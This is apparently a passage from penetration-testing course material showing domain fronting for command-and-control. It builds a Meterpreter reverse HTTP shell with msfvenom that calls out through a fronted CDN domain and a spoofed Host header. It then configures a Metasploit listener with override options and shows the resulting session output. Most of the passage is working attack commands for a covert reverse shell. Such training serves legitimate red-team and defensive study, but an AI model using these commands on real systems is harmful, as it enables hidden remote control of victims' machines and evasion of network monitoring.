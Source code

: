 First, we'll create a reverse shell payload. The only extra field we need to set is the _HttpHostHeader_, which will set the Host header in HTTP.

```
kali@kali:~$ msfvenom -p windows/x64/meterpreter/reverse_http LHOST=do.skype.com LPORT=80 HttpHostHeader=offensive-security.azureedge.net -f exe > http-df.exe
```

> Listing 22 - Creating Meterpreter reverse HTTP shell with HttpHostHeader option

Next, we need to configure a listener on our VM that is hosting meterpreter.info.

When we use a staged payload, there are some additional settings we need to configure for our listener.

The first stage will set the address for the second stage based on the actual IP address and port of the listener. This won't work for us because it will directly connect to our real IP. Since we obviously want to hide communication to this IP, we'll need to ensure that the second stage is also connecting to do.skype.com.

To do this, we'll need to set up some advanced options for our listener. We need to set the _OverrideLHOST_ option to our domain, and also set _OverrideRequestHost_ to "true". We can change the listening port as well with the _OverrideLPORT_ option, but this is unnecessary for this example.

Once this is set up we will start the listener with run -j, which will run the listener as a job.

```
msf5 exploit(multi/handler) > set LHOST do.skype.com

msf5 exploit(multi/handler) > set OverrideLHOST do.skype.com

msf5 exploit(multi/handler) > set OverrideRequestHost true

msf5 exploit(multi/handler) > set HttpHostHeader offensive-security.azureedge.net

msf5 exploit(multi/handler) > run -j
...

[-] Handler failed to bind to 152.199.19.161:80
[*] Started HTTP reverse handler on http://0.0.0.0:80
```

> Listing 23 - Setting up Meterpreter reverse HTTP shell listener

Metasploit will display an error that it failed to bind to 152.199.19.161 because it's the address of the original domain (do.skype.com), which is not hosted on our machine. However, Metasploit will failover and bind to all local interfaces.

Before we execute our payload, let's start Wireshark so we can inspect the traffic details.

Finally, we'll execute our payload.

```
msf5 exploit(multi/handler) > 
[*] http://do.skype.com:80 handling request from 152.195.142.158; (UUID: mbgovmvr) Staging python payload (53985 bytes) ...
[*] Meterpreter session 3 opened (138.68.99.177:80 -> 152.195.142.158:54524)

msf5 exploit(multi/handler) > sessions -i 3
[*] Starting interaction with 3...

meterpreter > getuid 
Server username: offsec
```
